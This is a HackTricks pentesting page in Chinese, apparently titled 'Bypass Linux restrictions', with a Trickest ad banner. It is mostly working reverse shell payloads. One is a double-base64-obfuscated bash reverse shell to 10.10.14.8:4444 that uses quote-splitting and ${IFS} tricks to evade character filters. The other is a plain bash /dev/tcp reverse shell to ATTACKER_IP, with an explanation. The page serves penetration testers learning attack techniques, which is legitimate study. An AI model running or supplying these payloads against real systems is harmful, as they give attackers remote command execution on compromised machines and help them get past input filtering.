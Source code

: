 # 绕过Linux限制

<details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks云 ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 推特 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 YouTube 🎥</strong></a></summary></details>

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

\
使用[**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks)可以轻松构建和**自动化工作流程**，使用全球**最先进**的社区工具。\
立即获取访问权限：

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

## 常见限制绕过

### 反向Shell
```bash
# Double-Base64 is a great way to avoid bad characters like +, works 99% of the time
echo "echo $(echo 'bash -i >& /dev/tcp/10.10.14.8/4444 0>&1' | base64 | base64)|ba''se''6''4 -''d|ba''se''64 -''d|b''a''s''h" | sed 's/ /${IFS}/g'
# echo${IFS}WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4TkM0NEx6UTBORFFnTUQ0bU1Rbz0K|ba''se''6''4${IFS}-''d|ba''se''64${IFS}-''d|b''a''s''h
```
### 简短的反向Shell

A reverse shell is a technique used in hacking to establish a connection between the attacker's machine and the compromised system. It allows the attacker to gain remote access and control over the compromised system.

To create a short reverse shell, you can use the following command:

```bash
bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1
```

Replace `ATTACKER_IP` with the IP address of your machine and `ATTACKER_PORT` with the port number you want to use for the connection.

This command redirects the input and output of the bash shell to a TCP connection established with the attacker's machine. It enables the attacker to execute commands on the compromised system and receive the output on their machine.
